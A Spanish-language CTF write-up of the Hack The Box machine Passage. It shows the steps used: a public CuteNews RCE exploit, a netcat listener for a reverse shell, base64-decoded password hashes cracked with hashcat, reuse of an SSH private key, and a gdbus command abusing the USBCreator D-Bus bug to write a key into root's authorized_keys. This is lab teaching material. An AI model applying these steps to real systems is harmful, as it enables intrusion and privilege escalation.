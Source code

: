 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: "Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root."
date: 2021-03-08
classes: wide
header:
  teaser: /assets/images/Passage-Hackthebox/passage.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Passage-Hackthebox/passage.png)

Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root.

## Escaneo de puertos

![](/assets/images/Passage-Hackthebox/nmap.png)

Puertos 22 y 80 abiertos.

Empiezo mirando la web en el puerto 80.

![](/assets/images/Passage-Hackthebox/web.png)

No hay robots.txt y en el código fuente tampoco hay nada interesante.

Decido fuzzear con ffuf pero me doy cuenta de que a los pocos segundos de empezar a buscar directorios se corta el acceso a la web, como si me hubieran baneado la ip.

## Intrusión inicial

En el pie de página veo “Powered by CuteNews” así que pruebo con searchsploit a ver si encuentra algo relacionado.

Y bingo! Encuentro ésto CuteNews 2.1.2 - Remote Code Execution

Lo descargo con searchsploit -m php/webapps/48800.py, lo ejecuto y me da diréctamente ejecución de comandos.

![](/assets/images/Passage-Hackthebox/cutenews.png)

Lo siguiente es ponerme en escucha en el puerto 9001 con rlwrap nc -lvnp 9001 y ejecutar una reverse shell en bash para recibir la shell.

![](/assets/images/Passage-Hackthebox/shell.png)

Convierto la shell en una shell totalmente interactiva.
Con which python compruebo de tiene python instalado, y luego como siempre:
```bash
python -c ‘import pty;pty.spawn(“/bin/bash”)’
ctrl + z
stty raw -echo
fg
export TERM=xterm
stty rows 58 columns 236
```

## Escalada al usuario paul

En el directorio home veo que hay dos usuarios, paul y nadav, pero no puedo listar lo que hay dentro.
Empiezo a enumerar el directorio var/www/html/CuteNews y encuentro un fichero que tiene unos hashes en base64.

El fichero es var/www/html/CuteNews/cdata/users/lines
Y contiene lo siguiente:

![](/assets/images/Passage-Hackthebox/users.png)

Mirando con `echo “texto” | base64 -d` en cada una de las cadenas de texto veo que hay algunas que tienen un hash de usuario.

```bash
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:

{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-
coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul

Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6c
b43f16f497273cd";s:3:"lts";s:10:"154www-data@passage:/var/www/html/
CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-
swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim

Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af30
85fbeca";s:3:"lts";s:10:"1592487094www-data@passage:/var/www/html/CuteNews/
cdata/users$

a:1:{s:4:"name";a:1:{s:5:"admin";a:8:
{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nad
av@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a

26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:)www-
data@passage:/var/www/html/CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:
{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre
55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f6533
1ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpbase64:
invalid input
```

Me guardo el hash de paul en un fichero y lo crackeo con hashcat

```bash
hashcat -m 1400 paul.hash tools/wordlist/rockyou.txt
```

![](/assets/images/Passage-Hackthebox/hashcat.png)

e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

Y con `su paul` y la contraseña atlanta1 me convierto en el usuario paul.

![](/assets/images/Passage-Hackthebox/paul.png)

Ya puedo leer el user.txt

## Escalada al usuario navdav

A continuación me pongo a enumerar lo que hay en la home de paul y veo que dentro de .ssh hay claves privadas. Las miro y veo que son del usuario nadav!

Simplemente copio el contenido de la clave privada y lo pego en un fichero local.
Luego cambio los permisos para que no me de error con `chmod 600 id_rsa` y me conecto con `ssh -i id_rsa nadav@10.10.10.206`

![](/assets/images/Passage-Hackthebox/navdav.png)

## Escalada a root

Llegado a este punto empiezo enumerando los ficheros de la home del usuario y veo en .ICEauthority que se repite varias veces el texto MAGIC-COOKIE.
Busco información sobre eso (iceauthority privilege escalation) y encuentro una página en la que explican un bug que permite crear ficheros con permisos de root.

[https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

Ya que puedo crear ficheros con privilegios de root, me creo en mi máquina un par de claves ssh con ssh-keygen. Después copio el contenido de mi clave pública y me creo un fichero en la máquina passage con el contenido de mi clave.

Por último ejecuto

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/key /root/.ssh/authorized_keys true
```

para copiar mi clave pública en root/.ssh/authorized_keys :)

Sólo me queda conectarme por ssh con el usuario root, ya que no me va a pedir contraseña.

![](/assets/images/Passage-Hackthebox/root.png)

Ya puedo leer el root.txt
